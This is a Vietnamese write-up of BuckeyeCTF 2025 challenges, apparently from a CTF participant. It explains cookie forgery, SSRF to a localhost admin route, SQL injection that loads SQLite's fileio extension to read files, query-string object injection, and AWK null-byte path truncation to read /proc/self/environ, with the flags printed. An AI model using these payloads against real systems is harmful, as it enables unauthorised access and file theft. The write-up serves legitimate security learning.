






# BuckeyeCTF 2025

## Danh sách bài:
- [Beginner - Mind Boggle - Misc](#beginner---mind-boggle---misc)
- [Beginner - Ramesses - Web](#beginner---ramesses---web)
- [Beginner - ebg13 - Web](#beginner---ebg13---web)
- [Packages - Web](#packages---web)
- [BIG CHUNGUS - Web](#big-chungus---web)
- [Awklet - Web](#awklet---web)

## Beginner - Mind Boggle - misc

Tiến hành đọc file `mystery.txt` đề bài cho, có vẻ đây là một đoạn mã Brainfuck. 

Mình có thể decode nó [tại đây](https://tio.run/#brainfuck).



Thu được output có vẻ là chuỗi hex, tiến hành decode thu được:

```
YmN0Znt0cjFwbDNfN0gzX2w0eWVSc19UcjFwbDNfdGhFX0VuY3J5UHQxME59
```

Đây có thể là một chuỗi base64, ta thử decode:

```
bctf{tr1pl3_7H3_l4yeRs_Tr1pl3_thE_EncryPt10N}
```

## Beginner - Ramesses - web

```
@app.route("/tomb")
def tomb():
    session_cookie = request.cookies.get("session")
    if not session_cookie:
        return redirect(url_for("home"))
    try:
        user = json.loads(base64.b64decode(session_cookie).decode())
    except Exception:
        return redirect(url_for("home"))
    return render_template("tomb.html", user=user, flag=flag)
```

Server tin tưởng hoàn toàn giá trị cookie session do client gửi: Decode base64 → JSON → object `user`

Ta nhập thử `name` và `password` và thu được một cookie session: 
```
eyJuYW1lIjogImtpZG8iLCAiaXNfcGhhcmFvaCI6IGZhbHNlfQ==
```

Decode base64: 
```
{"name": "kido", "is_pharaoh": false}
```

Sửa giá trị `"is_pharaoh"` thành `true`:
```
{"name": "kido", "is_pharaoh": true}
```

Encode base64:
```
eyJuYW1lIjogImtpZG8iLCAiaXNfcGhhcmFvaCI6IHRydWV9
```

Thành công tìm được flag.



## Beginner - ebg13 - web

Phân tích src code một chút:

```js
function rot13(str) {
  return str.replace(/[a-zA-Z]/g, (c) =>
    String.fromCharCode(
      c.charCodeAt(0) + (c.toLowerCase() < 'n' ? 13 : -13)
    )
  );
}
```

`rot13TextNodes($, node)` sẽ đi qua tất cả text node trong HTML và áp ROT13 cho nội dung.

```js
fastify.get('/ebj13', async (req, reply) => {
  const { url } = req.query;                 // <-- user-controlled input
  ...
  const res = await fetch(url);              // <-- server-side request to arbitrary URL
  const html = await res.text();
  ...
  reply.type('text/html').send(modifiedHtml); // <-- trả lại nội dung (đã ROT13) cho client
});
```

- `url` lấy trực tiếp từ query
- `fetch(url)` chạy trên server, nên request xuất phát từ server

```js
fastify.get('/admin', async (req, reply) => {
  if (req.ip === "127.0.0.1" || req.ip === "::1" || req.ip === "::ffff:127.0.0.1") {
    return reply.type('text/html').send(`Hello self! The flag is ${FLAG}.`) 
  }
  return reply.type('text/html').send(`Hello ${req.ip}, I won't give you the flag!`)
})
```

- `/admin` tin cậy IP cục bộ và trả flag
- Khi bạn ép server `fetch("http://127.0.0.1:3000/admin")` qua `/ebj13`, request đến `/admin` sẽ có `req.ip` là `localhost` → vượt kiểm soát truy cập.

```js
fastify.listen({ port: 3000, host: '0.0.0.0' }, ...)
```
- `port: 3000`

Do đó payload thực thi là: 
```js
http://127.0.0.1:3000/admin
```

Trang trả về nội dung:
```
Uryyb frys! Gur synt vf opgs{jung_unccraf_vs_v_hfr_guvf_jrofvgr_ba_vgfrys}.
```

Tiến hành decode ROT13:



## Packages - Web

Phân tích mã nguồn:

```python
@app.route("/", methods=["GET"])
def index():
    distro = request.args.get("distro", "").strip().lower()
    package = request.args.get("package", "").strip().lower()

    sql = "SELECT distro, distro_version, package, package_version FROM packages"
    if distro or package:
        sql += " WHERE "
    if distro:
        sql += f"LOWER(distro) = {json.dumps(distro)}"
    if distro and package:
        sql += " AND "
    if package:
        sql += f"LOWER(package) = {json.dumps(package)}"
    sql += " ORDER BY distro, distro_version, package"

    print(sql)
    results = db.execute(sql).fetchall()
    return render_template_string(TEMPLATE, request=request, results=results)
```

- Server lấy `distro` và `package` từ query string rồi ghép thành câu SQL thủ công bằng string concatenation

- Điểm lạ là: `json.dumps()` được dùng để escape input rồi đặt thẳng vào câu SQL.

Ý tưởng của tác giả app có lẽ là: Dùng `json.dumps()` để escape dấu `"` rồi nhét vào SQL thì sẽ an toàn. Nhưng: JSON escaping khác hẳn SQL escaping, nên nó trở thành lỗ hổng.

Giả sử bạn nhập payload sau vào `distro`:
```python
" OR 1 UNION SELECT '1','1','1','1' --
```

Thì trong Python, biến:
```python
distro = "\" OR 1 UNION SELECT '1','1','1','1' --"
```

Tức là dấu `"` được `json.dumps()` escape thành `\"`. Vì vậy, JSON escape \" không hề bảo vệ, mà ngược lại giúp ta:

- Đóng chuỗi SQL sớm hơn dự định.
- Chèn được phần OR ... UNION SELECT ... ở bên ngoài string → SQL Injection.

Trong SQLite, có extension fileio với hàm: `readfile(path)
`

Hàm này sẽ đọc file trên filesystem và trả về nội dung. Nên ta thử payload:
```python
" UNION SELECT NULL,NULL,NULL,readfile('/app/flag.txt')-- -
```

Server trả 500. Nghĩa là hàm readfile chưa tồn tại, extension `fileio` chưa được load.

SQLite cho phép nạp thêm extension bằng hàm: `SELECT load_extension('/path/to/ext.so');`

Extension fileio đã được build sẵn ở:
```
/sqlite/ext/misc/fileio.c.so
```

Payload:
```
" UNION SELECT NULL,NULL,NULL,load_extension('/sqlite/ext/misc/fileio')-- -
```



Đọc flag:
```
" UNION SELECT NULL,NULL,NULL,readfile('/app/flag.txt')-- -
```



## BIG CHUNGUS - Web

Phân tích mã nguồn:
```js
app.get('/', (req, res) => {
    const username = req.query.username || '';

    if (req.query.username.length > 0xB16_C4A6A5) {
        // BIG CHUNGUS DETECTED → in flag
    }

    // còn lại là render trang bình thường...
});
```

Điểm quan trọng:
- `req.query.username` được kỳ vọng là string.
- Họ check: `req.query.username.length > 0xB16_C4A6A5`
- `0xB16_C4A6A5` là số hexa ~ 47.6 tỷ (≈ 47 GB ký tự)

Nghĩa là: Nếu độ dài username > 47,6 tỷ ký tự ⇒ cho flag.

Thay vì cố kéo dài string, ta nghĩ: Làm sao để `req.query.username.length` không còn là độ dài string, mà là 1 property length do mình tự đặt?

Muốn vậy, ta phải khiến `req.query.username` không phải string nữa mà là object.

Express (khi dùng qs) parse query giống PHP:
```js
?username=abc
→ req.query = { username: "abc" }

?username[length]=123
→ req.query = { username: { length: "123" } }
```

Payload: 
```js
?username[length]=0xb16c4a6a6
```

Thành công đọc được flag:


## Awklet - Web

Phân tích mã nguồn:

```awk
function load_font(font_name, font,    filename, line, char, row, c) {
    filename = font_name ".txt"
    char = 32
    row = 0

    while ((getline line < filename) > 0) {
        font[char, row] = line
        row++

        if (row == HEIGHT) {
            char++
            row = 0
        }
    }

    close(filename)
}
```

- `font_name` hoàn toàn đến từ user: `GET["font"]`.
- Nó ghép thành:
```awk
filename = font_name ".txt"
```

- Sau đó:

```awk
while ((getline line < filename) > 0) {
    ...
}
```

AWK sẽ mở file tên `filename` và đọc toàn bộ nội dung

Vấn đề: tác giả tưởng rằng luôn có .txt nên không thể đọc file xấu ngoài thư mục font.

Nếu `font_name` chứa null byte ở giữa, ví dụ:
```c
font_name = "/proc/self/environ\0"
```
thì:
```c
filename = font_name ".txt"
```

Nhưng khi gawk gọi open/fopen:
```c
fopen("/proc/self/environ\0.txt", "r");
```

Hàm C chỉ nhìn tới \0 đầu tiên → thực chất nó nhận:
```c
fopen("/proc/self/environ", "r");
```

Đuôi .txt bị cắt mất hoàn toàn. Đây chính là lỗi null-byte truncation / path injection.

### **Xây payload**

Ta muốn:
```
font_name = "/proc/self/environ\0"
```
Vì `urldecode` biến %00 thành byte 0, nên query sẽ là:
```
?name=kido&font=/proc/self/environ%00
```

